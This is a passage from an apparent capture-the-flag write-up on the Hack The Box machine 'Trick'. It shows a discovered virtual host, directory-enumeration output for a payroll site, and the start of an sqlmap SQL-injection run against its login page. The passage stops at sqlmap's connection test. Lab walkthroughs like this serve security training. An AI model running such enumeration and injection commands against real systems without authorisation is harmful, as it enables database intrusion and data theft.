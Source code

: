 ```shell
```
As we can see we found one additional domain `preprod-payroll.trick.htb`.
Now let's start digging into port 80.  
As we hit the default virtual host we do not see anything fascinating.  
Now let's dig into the discovered virtualhost.  
As we open the site we can see a login prompt.  
Running directory enumeration allows us unauthenticated access to resources, but we cannot trigger any action with the disclosed pages:  
```bash
/login.php            (Status: 200) [Size: 5571]
/index.php            (Status: 302) [Size: 9546] [--> login.php]
/ajax.php             (Status: 200) [Size: 0]
/home.php             (Status: 200) [Size: 486]
/assets               (Status: 301) [Size: 185] [--> http://preprod-payroll.trick.htb/assets/]
/database             (Status: 301) [Size: 185] [--> http://preprod-payroll.trick.htb/database/]
/users.php            (Status: 200) [Size: 2197]
/header.php           (Status: 200) [Size: 2548]
/.                    (Status: 301) [Size: 185] [--> http://preprod-payroll.trick.htb/./]
/readme.txt           (Status: 200) [Size: 149]
/employee.php         (Status: 200) [Size: 2717]
/navbar.php           (Status: 200) [Size: 1382]
/department.php       (Status: 200) [Size: 4844]
/db_connect.php       (Status: 200) [Size: 0]
/payroll.php          (Status: 200) [Size: 3142]
/position.php         (Status: 200) [Size: 5549]
/topbar.php           (Status: 200) [Size: 585]
/attendance.php       (Status: 200) [Size: 4688]
/site_settings.php    (Status: 200) [Size: 2273]
/deductions.php       (Status: 200) [Size: 4912]
```
Now we can run an `sqlmap` against the login page:  
```shell
[root@kali Trick ]$ sqlmap -r login.req --batch --schema                                                                                                                                                                           [104/6971]
        ___                                                                                                              
       __H__                                                                                                             
 ___ ___[']_____ ___ ___  {1.6.6#stable}                                                                                 
|_ -| . [(]     | .'| . |                                                                                                
|___|_  [.]_|_|_|__,|  _|                                                                                                
      |_|V...       |_|   https://sqlmap.org                                                                             
                                                                                                                         
[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not res
ponsible for any misuse or damage caused by this program                                                                 
                                                                                                                         
[*] starting @ 15:36:18 /2022-07-11/                                                                                     
                                                                                                                         
[15:36:18] [INFO] parsing HTTP request from 'login.req'                                                                  
[15:36:19] [INFO] resuming back-end DBMS 'mysql'                                                                         
[15:36:19] [INFO] testing connection to the target URL                                                                   
```